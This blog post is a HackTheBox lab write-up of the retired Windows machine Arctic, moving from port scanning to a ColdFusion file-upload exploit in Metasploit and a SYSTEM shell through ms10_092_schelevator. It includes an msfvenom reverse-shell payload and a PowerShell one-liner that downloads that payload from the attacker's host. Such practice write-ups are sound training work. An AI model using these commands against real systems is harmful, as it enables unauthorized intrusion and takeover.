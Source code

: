 ```yaml
---
layout: post
title: "Writeup: HackTheBox Arctic - with Metasploit"
description: "Rooting Arctic using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][]. All published writeups are for retired HTB machines. Whether
 or not I use Metasploit to pwn the server will be indicated in the title.
 
# Arctic

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.11</small>_

I run a quick port scan to identify the open ports:

```bash
nmap -p- --min-rate=1000 -T4 -Pn 10.10.10.11

Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-28 22:21 EDT
Nmap scan report for 10.10.10.11
Host is up (0.018s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
```

I then interrogate the three open ports:

```bash
nmap -A -sC -sV -Pn -p135,8500,49154 10.10.10.11

Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-28 22:23 EDT
Nmap scan report for 10.10.10.11
Host is up (0.013s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

THe 8500 port defies identification. Navigating to it in my browser, I see it is a web server.

I bust out [gobuster][]. It times out trying to query the server. By manually navigating to a few test paths and counting seconds, I see the issue. The server waits 25 seconds before responding to any web request.

I extend gobuster's HTTP timeout to 35 seconds with the flag `--timeout 35`.

It takes a while for the brute force to run, but I eventually make my way to this page:

`http://10.10.10.11:8500/CFIDE/administrator/enter.cfm`

Where I find a [Coldfusion][] web server.

Searching for vulnerabilities on exploit-db with `searchsploit coldfusion`, I find the following:

`Adobe ColdFusion 2018 - Arbitrary File Upload | exploits/multiple/webapps/45979.txt`

Ah, and it has a matching Metasploit module: `exploit/windows/http/coldfusion_fckeditor`.

This module will not work out of the box, however, as its default timeout is 5 seconds.

The module file is located at `/usr/share/metasploit-framework/modules/exploits/windows/http/coldfusion_fckeditor.rb`.

You want to find the `send_request_cgi` and `send_request_raw` methods and change the `5` at the end of their function declarations to `30`, to increase their timeouts from 5 seconds to 30 seconds.

![modifying metasploit module source to extend timeout to 30 seconds][msf module modify]

From there, you can execute this exploit to obtain a user shell and the accompanying user flag.

Let's take this user shell and upgrade it to a Meterpreter shell so that we can run Metasploit's [local privilege suggester][priv sug] for privilege escalation options.

We create a payload with `msfvenom` and start a local web server:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.29 lport=4645 -f exe > shell.exe
sudo python3 -m http.server
```

Then, in our user shell on the target, we can execute this powershell one-liner to download the file:

```bat
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.29:8000/shell.exe', 'fun.exe')"
```

From there we start a Meterpreter handler on port `4645` and run the `fun.exe` executable on the target. Our meterpreter user shell connects.

Now run run `post/multi/recon/local_exploit_suggester`:

```bash
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.11 - Collecting local exploits for x64/windows...
[*] 10.10.10.11 - 15 exploit checks are being tried...
[+] 10.10.10.11 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.11 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Post module execution completed
```

Our user is not in the Administrators group so we cannot use the first two exploits.

The third exploit, `exploit/windows/local/ms10_092_schelevator`, is successful and we get a root shell. From here we can grab our root flag.

[hackthebox]: https://www.hackthebox.eu

[coldfusion]: https://coldfusion.adobe.com
[gobuster]: https://github.com/OJ/gobuster
[msf module modify]: /img/htb/arctic/msf-module-modify-timeout.png
[priv sug]: https://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463/
